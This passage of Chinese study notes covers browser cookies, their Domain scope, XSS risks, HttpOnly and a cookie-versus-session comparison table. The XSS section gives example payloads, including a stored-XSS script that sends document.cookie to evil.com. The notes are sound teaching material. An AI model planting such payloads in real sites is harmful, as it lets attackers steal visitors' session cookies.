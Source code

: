 > - 会话期 Cookie：浏览器关闭之后它会被自动删除，也就是说它仅在会话期内有效。<mark>只在当前浏览器会话中有效</mark>
> - 持久性 Cookie：有设置过期时间（Expires）或有效期（max-age）就称为持久性的Cookie。<mark>即使浏览器关闭后仍然保留，直到过期</mark>

作用域Domain 

> 规定了当前主机下面的哪些子域名可以接受当前的Cookie
>
>
> 例如：Set-Cookie: token=abc123; Domain=example.com; Path=/; HttpOnly;
> 那么当前主机下面的所有包含example.com的子域名都可以共享Cookie
>
> 会被 example.com、www.example.com、api.example.com 等所有子域共享

Javascript

> 客户端使用Javascript设置Cookie
>
> 用document.cookie来设置Cookie
>
> 
>
> 这样容易招到XSS(跨站脚本攻击)：
>
> 1. 反射型XSS：攻击代码嵌在 URL 里，服务器没做过滤，原样返回给用户 → 浏览器执行
>
> http://example.com/search?q=<script>alert('XSS')</script>
>
> 2. 存储型XSS：恶意脚本被保存到数据库或评论系统、论坛等地方，所有人都会执行这段
>
> <script>fetch('http://evil.com/steal?c=' + document.cookie)</script>
>
> 3. DOM型XSS：服务器并没有返回恶意脚本，浏览器自己进行拼接的
>
> http://example.com/#<script>alert('XSS')</script> 
>
> /# 后面的内容是不会被服务器看到的，后面的内容是哈希部分
>
> 前端插入到网页里没有进行任何的转义

HttpOnly

> 标记为 HttpOnly 的 Cookie 不能被 JavaScript 脚本调用

Session

Session和Cookie的区别如下

| 对比项             | Cookie                               | Session                                      |
| ------------------ | ------------------------------------ | -------------------------------------------- |
| 存储位置           | 🧠 客户端（浏览器）                   | 💾 服务器端（如内存、Redis、数据库）          |
| 保存形式           | 文本（键值对），由浏览器保存在本地   | 对应一个唯一 ID，值存储在服务器上            |
| 容量限制           | 每个 Cookie ~4KB，总量有限           | 较大，不受浏览器限制                         |
| 安全性             | ❌ 较低（可被用户查看/修改）          | ✅ 更安全（用户无法直接访问）                 |
| 是否可跨域访问     | ❌ 只能访问设置它的域名               | ❌ 也不能跨域，Session 绑定在当前网站         |
| 常见用途           | 保存用户偏好、登录 token、语言设置等 | 保存登录状态、购物车、权限等敏感信息         |
| 生命周期           | 可设置过期时间或关闭浏览器后销毁     | 通常由服务器控制（可设置 session 过期时间）  |
| 是否自动随请求发送 | ✅ 每次请求自动携带（`Cookie` 头）    | ❌ 需要先通过 Cookie 或 URL 携带 `Session ID` |
